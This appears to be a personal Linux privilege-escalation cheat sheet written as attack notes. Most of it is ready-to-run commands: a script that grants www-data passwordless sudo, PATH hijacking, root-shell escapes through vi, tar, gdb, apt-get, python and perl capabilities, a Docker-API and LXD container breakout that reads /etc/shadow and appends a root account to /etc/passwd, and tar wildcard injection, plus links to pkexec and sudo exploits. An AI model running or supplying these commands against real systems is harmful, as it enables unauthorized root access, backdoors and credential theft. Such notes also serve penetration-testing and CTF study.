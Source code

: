 ### PRIVESC notes

### suid bits
- Finding files with suid bit

      find / -perm -u=s -type f 2</dev/null

### CRON JOBS
  <a href="https://vk9-sec.com/exploiting-the-cron-jobs-misconfigurations-privilege-escalation/">Link to MORE ON CRON JOBS</a>
- Check cronjobs with

       cat /etc/crontab
- Check if the cron job is running with

      service cron status
  
- Script to run if you can write a cronjob script

       import os 
       import sys
       try:
          print("on it")
          os.system("echo 'www-data ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers")
       except:
            print("Didn't work")
            sys.exit()

### PRIVESC WITH PATH VARIABLE MANIPULATION
- If a binary does not detail the path to run another binary e.g not using (/usr/bin/curl) {stating the path}

    ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/f0562606-ec66-47bb-a419-9293ca0a62f1)

- You can manipulate the path and get a root shell.It should be noted the binary you are exploiting must have a suidbit

      cd /tmp
      echo "/bin/sh" > <binary you eant to attack>
      chmod 700 curl
      export PATH=/tmp:$PATH

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/cf277f1d-1664-4ea8-a1f0-1461101c5006)
   
### Privesc with pkexec(suidbit) ver 0.105(CVE-2021-4034)
   Use this <a href="https://github.com/arthepsy/CVE-2021-4034">exploit</a>
   <a href="https://www.exploit-db.com/exploits/50689">Exploit db's link</a>

### if a user is allowed to run vi as root with no password

             sudo /usr/bin/vi
             :!/bin/bash

### Privesc with tar if a user can run it as root with no password
 
  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/43c6206f-dda5-4b01-9ca4-af2b28e47ca6)

- Use

       sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

### Privesc with docker api on port 2375

      docker -H <IP>:2375 run --rm -it --privileged --net=host -v /:/mnt alpine

### file access

      cat /mnt/etc/shadow

### RCE <getting root with that user>

     chroot /mnt

### PRIVESC WITH APT-GET IF A USER CAN RUN IT WITH SUDO

    sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
### Privesc on sudo version 1.8.2-1.8.31p2 and 1.9.0-1.9.5p1 [Baron Samedit]

  ### Test it with

    sudoedit -s '\' $(python3 -c 'print("A"*1000)')
- Link to exploit <a href="https://github.com/blasty/CVE-2021-3156">Link to exploit</a>

### IF SUID BIT IS SET IN A GDB BINARY

    gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit

### PRIVESC WITH LXC MISCONFIGURED CONTAINER

- To check if a user is part of the lxd group,use this command

  `cat /etc/passwd | awk -F ':' '{print $1}' | xargs -L1 id | grep -i "lx"`
- Check if lxd is running as user with

    `cat /etc/passwd | grep "lxd"`
- Running processes of ps -aux
  `cat /etc/passwd | grep "lxd"`

- Build a container on your machine with this commands,run it as root though

      git clone https://github.com/saghul/lxd-alpine-builder.git
      cd lxd-alpine-builder
      ./build-alpine
 
-  Receive it on your target machine with pyhton,test directories like `/dev/shm` or`/tmp`,receive the file on your target machine
 with python http.server.Send the one with a recent date

- Initiate the image

       lxc init alpine juggernaut -c security.privileged=true
       lxc config device add juggernaut gimmeroot disk source=/ path=/mnt/root recursive=true
       lxc start juggernaut
       lxc list

- Execute as root

      lxc exec juggernaut sh
  
- If you cannot find storage devices,you have to create one,use brtfs and if the server does not support ipv6,set it to none

      lxd init

- After executing,breakout with `chroot /mnt/root`

- Creating a new user can help us escalate privileges,on your system,do `openssl passwd {choice of password}` and in your target machine do this



      echo '[usernameyou want]:[openssl generated hash]:0:0:root:/root:/bin/bash' >> /mnt/root/etc/passwd`

### Privesc with capabilities
  Capabilities work by breaking the actions normally reserved for root down into smaller portions. The use of capabilities is only beginning to drop into userland applications as most system utilities do not shed their root privileges. Let’s move ahead that how we can use this permission more into our task.

Limited user’s permission: As we know Giving away too many privileges by default will result in unauthorized changes of data, backdoors and circumventing access controls, just to name a few. So to overcome this situation we can simply use the capability to limited user’s permission.

Using a fine-grained set of privileges: Use of capability can be more clearly understood by another example. Suppose a web server normally runs at port 80 and we also know that we need root permissions to start listening on one of the lower ports (<1024). This web server daemon needs to be able to listen to port 80. Instead of giving this daemon all root permissions, we can set a capability on the related binary, like CAP_NET_BIND_SERVICE. With this specific capability, it can open up port 80 in a much easier way.

  - To enable a binary'scapabilities, use

        setcap cap_setuid+ep /home/demo/python3
  - To find binaries with capabilities,use to check the whole system recursively

        getcap -r / 2</dev/null
  ###IF CAP_SETUID is active
  - Python binary ,use

        ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
        
  - Perl binary
    
        ./perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
  - Tar binary
    If CAP_DAC_READ_SEARCH is active,we can bypass restrictions and read files and access directories e.g we can read the /etc/shadow file

          ./tar cvf shadow.tar /etc/shadow  
          ls
          ./tar -xvf shadow.tar
        
### TAR WILDCARDS

            cd /opt/backup
            echo -e '#!/bin/bash\n/bin/bash' > shell.sh
            echo "" > "--checkpoint-action=exec=sh shell.sh"
            echo "" > --checkpoint=1
            


            

